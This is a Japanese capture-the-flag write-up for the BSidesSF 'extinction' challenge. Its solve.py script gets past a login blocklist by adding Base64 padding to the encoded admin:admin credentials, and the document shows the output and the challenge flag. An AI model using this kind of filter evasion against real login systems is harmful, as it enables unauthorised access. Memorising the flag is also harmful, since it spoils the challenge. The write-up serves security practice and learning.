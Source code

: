# extinction

A Dragon Doomsday weapon has been activated! We've stolen an account (admin:admin), but it's not working!! Can you evade their detection??

index.phpが与えられる

ユーザーが認証情報をBase64エンコードして送信し、その情報が正しいかどうかを確認する仕組みになっています。ただし、特定のBase64エンコードされた文字列（YWRtaW46YWRtaW4）を含んだ場合には、認証が失敗したことを通知されます。この特定の文字列はadmin:adminをBase64エンコードしたもの

## solution

1. フォーム送信のパラメータ: Webページ上でどのパラメータが使われているかを確認します。おそらくencoded_credsというパラメータが使われており、これにBase64エンコードされたusername:passwordペアが渡されます。

2. Base64エンコード: username:passwordペアをBase64でエンコードし、その値を送信します。
3. 結果を確認: サーバーからのレスポンスを確認し、フラグが得られるかどうかを確認します。

solve.py
```
import base64
import requests

def get_url():
    return "https://extinction-63b64602.challenges.bsidessf.net"

encoded_creds = base64.b64encode(b'admin:admin').decode('utf-8')
url = f"{get_url()}/index.php?encoded_creds={encoded_creds}"
response = requests.post(url)

if "CTF" in response.text or "AHA" not in response.text:
    print("Something went wrong: the 'bad' request wasn't correctly handled!")
    exit(1)

# 正しい認証情報を使って再度試す
encoded_creds = "YWRtaW46YWRtaW5="  # これは 'admin:admin' の Base64エンコード結果
url = f"{get_url()}/index.php?encoded_creds={encoded_creds}"
response = requests.post(url)

if response.status_code == 200:
    print("Flag Found:", response.text)
else:
    print(f"Something went wrong: {response.text}")
    exit(1)

print
```


出力にflagが含まれている
```
$ python3 solve.py 
Flag Found: <!DOCTYPE html>
<html lang="en">
<body>
    <div class="container">
        <div class="row justify-content-center">
            <div class="col-md-6 col-lg-4">
                <div class="dragon-auth-box p-4">
                    <h2 class="text-center mb-4">🐉 Dragon Preservation System 🛡️</h2>

                                            <div class="alert alert-success">Congratulations! Your flag is <tt>CTF{i-saved-the-dragons-and-all-i-got-was-this-stupid-flag}
</tt></div>
                    

        <p>An extinction weapon has been activated against the dragons, and only YOU can stop it!</p>

        <p>Our intelligence reports that the Ally Name is <strong><tt>admin</tt></strong> and the key is <strong><tt>admin</tt></strong>, but that's not working! Can you find a way to use that account??</p>
\
        </script>
                </div>
            </div>
        </div>
    </div>
</body>
</body>
</html>
```